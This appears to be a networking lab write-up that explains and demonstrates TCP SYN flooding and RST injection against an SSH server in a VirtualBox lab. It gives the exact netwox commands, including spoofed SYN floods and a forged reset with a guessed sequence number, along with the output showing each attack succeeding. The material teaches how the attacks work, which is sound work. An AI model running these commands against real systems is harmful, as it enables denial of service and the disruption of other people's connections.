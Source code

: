 # TCP Attacks

## Description

TCP is a protocol in the Transport Layer that works on top of the IP Layer. It provides a way for network nodes to communicate realiably and guarranties the order and the consistency of the delivered messages. To achieve this communication, both ends require to maintain a connection.

Although internet applications such as the email, file transfer, HTTP etc. rely on TCP, it has no security mechanism built into the protocol. The messages are not protected so an attacker can read them, manipulate and change them, insert fake data and hijack connections.

Here, we will show some of the methods that can be used to attack a TCP connection such as:

- SYN flooding
- Reset attack
- Session hijack

## Attacks

### SYN flooding
With SYN flood, the attacker tries to consume enough resources of the attacked machine in order to make it unresponsive to legitimate users.

When a new TCP connection is attempted the client and the server exchange 3 messages

1. Client: `SYN` 
2. Server: `SYN+ACK`
3. Client: `ACK`

<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Tcp_normal.svg/1920px-Tcp_normal.svg.png" width="50%">


The first `SYN` informs the server that a client wants to establish a new connection. The server stores this request in a queue and the connection is called a *half-open connection*. When the third step (the client sending the `ACK` ) is completed the request is removed from this queue.

In this attack, the queue of the half-open connections is used to make the server unresponsive to new clients. The attacker sends a lot of `SYN` without replying `ACK`, filling the queue and binding resources of the server. When a legitimate client tries to connect to the server, the server will not be able to accept new `SYN` packets.

<img src="https://upload.wikimedia.org/wikipedia/commons/9/94/Tcp_synflood.png" width="50%">

#### Preparation

In order to perform a SYN flooding attack, we created 2 virtual machines in VirtualBox, one for the server and the other for a client.
The role of the attacker is given to the host machine.

<img src="https://spanagiot.gr/networks/vms.png" width="50%">

To demonstrate this attack, we need to turn off the protection enabled by default (in Debian based OSes) using the command
```bash
sysctl -w net.ipv4.tcp_syncookies=0
```

To monitor the connections on the server, we will use a program called `netstat`, which is part of the `net-tools` package. Using the command `netstat -tna` we can see all the current active TCP connections on the machine.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:59831          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

As we can see, our machine is listening for SSH connections and the `ESTABLISHED` is an SSH connection from the host to the VM. We can also see that we don't have any `SYN_RECV` state. In normal situations there won't be many half-open connections.

To perform the attack we will use the `netwox` package which includes a tool that can launch a SYN flooding attack (tool number 76).

```
Title: Synflood
Usage: netwox 76 -i ip -p port [-s spoofip]
Parameters:
 -i|--dst-ip ip                 destination IP address {5.6.7.8}
 -p|--dst-port port             destination port number {80}
 -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
 --help2                        display full help
Example: netwox 76 -i "5.6.7.8" -p "80"
Example: netwox 76 --dst-ip "5.6.7.8" --dst-port "80"
```

#### Attack

We want to target the SSH server running at the port 22 and the address of the machine is `10.2.1.16`. So, to perform the attack we need to execute

```bash
netwox 76 -i 10.2.1.16 -p 22 -s raw
```

After running this command, we execute again the `netstat` command on the server to see what is going on.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            142.65.213.19:8969      SYN_RECV
tcp        0      0 10.2.1.16:22            42.82.247.152:23656     SYN_RECV
tcp        0      0 10.2.1.16:22            21.74.47.152:40124      SYN_RECV
tcp        0      0 10.2.1.16:22            219.199.203.189:16719   SYN_RECV
tcp        0      0 10.2.1.16:22            25.30.122.237:58762     SYN_RECV
tcp        0      0 10.2.1.16:22            8.107.205.103:57390     SYN_RECV
tcp        0      0 10.2.1.16:22            218.215.44.80:61166     SYN_RECV
tcp        0      0 10.2.1.16:22            190.69.210.6:22369      SYN_RECV
tcp        0      0 10.2.1.16:22            5.244.215.162:14775     SYN_RECV
tcp        0      0 10.2.1.16:22            111.93.83.52:57612      SYN_RECV
tcp        0      0 10.2.1.16:22            164.243.64.220:8708     SYN_RECV
tcp        0      0 10.2.1.16:22            27.189.25.159:18512     SYN_RECV
tcp        0      0 10.2.1.16:22            66.77.120.164:23110     SYN_RECV
tcp        0      0 10.2.1.16:22            81.225.85.217:25157     SYN_RECV
tcp        0      0 10.2.1.16:22            118.36.20.88:37156      SYN_RECV
tcp        0      0 10.2.1.16:22            131.13.233.59:2758      SYN_RECV
tcp        0      0 10.2.1.16:22            145.136.144.151:65212   SYN_RECV
tcp        0      0 10.2.1.16:22            122.252.244.20:31515    SYN_RECV
tcp        0      0 10.2.1.16:22            5.49.25.115:48337       SYN_RECV
```

The list of `SYN_RECV` connections is larger but it would be unecessary to show it all. We can see that all these connections target the port 22 and the foreign address looks random. After leaving this tool running for a couple of seconds, the server will not be able to receive new TCP connections.

We can verify this by trying to open a new SSH from the client.

```bash
user@client:~$ ssh user@10.2.1.16
ssh: connect to host 10.2.1.16 port 22: Operation timed out
```

We need to specify here that this attack will only affect the port 22 and the SSH service. If telnet was running on port 23 it would not be affected because the each port has its own connection queue. Also, the server will continue operating normally, without any indication that an attack is happening.

### RST attack
There are two ways to terminate and established TCP connection between two hosts (let's call them A and B). The first way is done with A informing B that it wants to terminate the connection by sending a `FIN` packet and expects and `ACK` from B. If B wants also to terminate his side of the connection (because TCP connections are two one-way "pipes") can also send a `FIN` packet and after `ACK` is received the connection is considered closed.
The second way is for host A to send a `RST` packet. The `RST` packet will indicate to the receiving host that the connection should be terminated immediately. It is used in situations where there is no time to close the connection using the `FIN` packets and when there are errors detected in the connection.
Using the `RST` packet, an attacker can terminate an established connection without the consent of any of the legitimate users.

#### Preparation
We will use again 3 machines, one VM and the host as the legitimate users and the other VM as the attacker (see preparation in the previous attack).

#### Attack
Considering we know everything about the current connection between the server and the client (both source and destination IP and port number), we need to guess the sequence number because if it's not considered valid by the receiver our(the attacker's) packet will be discarded.
We will use wireshark to monitor the traffic between the two users and find the sequence number.
We will also use again the `netwox` program and the tool number 40 which can be used to send any TCP package.

```bash
user@client:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -l|--ip4-src ip                IP4 src {10.2.1.27}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 --help2                        display help for advanced parameters
 ```
 (We removed all the unused options from the parameters list because the list was huge)

By monitoring the connection in Wireshark, we can see the current sequence numbers, and we can use them to predict the next one. TCP has a certain "window" so we don't need to be extremely accurate.
Here are the connections to the server

```bash
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:52494          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

and here is the latest sequence number as captured by Wireshark (Wireshark shows by default the relative sequence number and we need to turn it off)

<img src="https://spanagiot.gr/networks/wireshark_seq.png" >

By inspecting the other packets we can see that the sequence number increases by 36 almost every time, so 1806966531+36=1806966567 will be our guess.

We launch the attack by running
```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.16 -o 52494 -p 22 -B -q 1806966567
```

If we guess correctly, we will see on the client connected to the server this message
```bash
user@server:~$ packet_write_wait: Connection to 10.2.1.16 port 22: Broken pipe
```
which indicates that our attack was successful!
